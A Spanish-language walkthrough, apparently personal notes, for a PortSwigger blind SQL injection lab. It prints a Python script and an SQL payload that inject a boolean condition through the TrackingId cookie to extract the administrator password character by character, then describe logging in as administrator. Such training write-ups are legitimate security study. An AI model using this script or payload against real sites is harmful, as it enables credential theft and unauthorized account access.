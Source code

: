 ```python
page_url = input("Ingrese la url: ")
caracteres = str(string.digits + string.ascii_lowercase + string.ascii_uppercase)
cookie = input("Ingrese la cookie: ")
sessionHash = input("Ingrese el hash de session: ")
```

- Solicita la URL del lab vulnerable
- Define el conjunto de caracteres a probar (0-9, a-z, A-Z)
- Pide las cookies necesarias (TrackingId y session)

### Ataque de fuerza bruta blind

```python
for posicion in range(1,21): #1..20
    for caracter in caracteres:
        cookies = {
            'TrackingId': "%s' AND (SELECT substring(password,%d,1) FROM users WHERE username='administrator')='%s'-- -" % (cookie,posicion,caracter),
            'session': sessionHash
        }
```
### Payload utilizado

```sql
' AND (SELECT substring(password,POSICION,1) FROM users WHERE username='administrator')='CARACTER'-- -
```

### Funcionamiento de la técnica blind

1. **Extracción carácter por carácter**: Para cada posición (1-20) prueba cada caracter posible
2. **Condición booleana**: La consulta devuelve TRUE si el caracter en esa posición coincide
3. **Indicador de éxito**: Si aparece "Welcome back!" en la respuesta, el caracter es correcto
4. **Construcción progresiva**: Va construyendo la contraseña carácter a carácter

### Ejemplo de funcionamiento

- Posición 1, prueba 'a': `substring(password,1,1)='a'` → No aparece "Welcome back!"
- Posición 1, prueba 'p': `substring(password,1,1)='p'` → Aparece "Welcome back!" → password = "p"
- Posición 2, prueba 'a': `substring(password,2,1)='a'` → Aparece "Welcome back!" → password = "pa"

## Características específicas del lab PortSwigger

Este script está diseñado específicamente para labs donde:

- Existe una tabla `users` con columnas `username` y `password`
- El usuario objetivo es `administrator`
- La respuesta exitosa contiene el texto "Welcome back!"
- La vulnerabilidad está en la cookie `TrackingId`

![[Pasted image 20250724100641.png]]

**Ahora nos logueamos como el usuario administrador**
****

![[Pasted image 20250724100824.png]]
![[Pasted image 20250724100901.png]]